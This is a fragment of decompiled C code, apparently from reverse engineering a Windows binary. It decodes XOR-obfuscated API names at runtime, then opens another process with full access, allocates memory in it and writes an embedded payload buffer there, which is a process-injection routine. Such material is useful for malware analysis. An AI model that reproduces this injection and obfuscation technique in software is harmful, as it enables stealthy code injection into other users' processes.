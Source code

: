 ```c
  v14 = GetProcAddress(hModule, v25);
  if ( !v14 )
    return 1;
  while ( v8 != v21 )
  {
    if ( !((unsigned int (__fastcall *)(HANDLE, int *))v14)(hObject, &v20) )
      goto LABEL_18;
  }
  v22 = 24;
  qmemcpy(v23, "'29\a%842$$W", sizeof(v23));
  sub_140001000((__int64)&v22, 0xCu);
  v13 = GetProcAddress(hModule, &v22);
  if ( !v13 )
    return 1;
  v5 = ((__int64 (__fastcall *)(__int64, __int64, _QWORD))v13)(0x1FFFFFLL, 1LL, v21);
LABEL_18:
  CloseHandle(hObject);
  if ( !v5 )
    return 1;
  v10 = 3072LL;
  v29[0] = 1;
  v29[1] = 62;
  v29[2] = 37;
  v29[3] = 35;
  v29[4] = 34;
  v29[5] = 54;
  v29[6] = 59;
  v29[7] = 22;
  v29[8] = 59;
  v29[9] = 59;
  v29[10] = 56;
  v29[11] = 52;
  v29[12] = 18;
  qmemcpy(v30, "/W", sizeof(v30));
  sub_140001000((__int64)v29, 0xFu);
  v15 = GetProcAddress(hModule, v29);
  if ( !v15 )
    return 1;
  v6 = ((__int64 (__fastcall *)(__int64, _QWORD, __int64, __int64, int))v15)(v5, 0LL, v10, 12288LL, 4);
  if ( !v6 )
    return 1;
  v33[0] = 0;
  v33[1] = 37;
  v33[2] = 62;
  v33[3] = 35;
  v33[4] = 50;
  v33[5] = 7;
  v33[6] = 37;
  v33[7] = 56;
  v33[8] = 52;
  v33[9] = 50;
  v33[10] = 36;
  v33[11] = 36;
  v33[12] = 26;
  qmemcpy(v34, "2:8%.W", sizeof(v34));
  sub_140001000((__int64)v33, 0x13u);
  v16 = GetProcAddress(hModule, v33);
  if ( !v16 )
    return 1;
  if ( !((unsigned int (__fastcall *)(__int64, __int64, void *, __int64, _QWORD))v16)(v5, v6, &unk_14001C000, v10, 0LL) )
    return 1;
```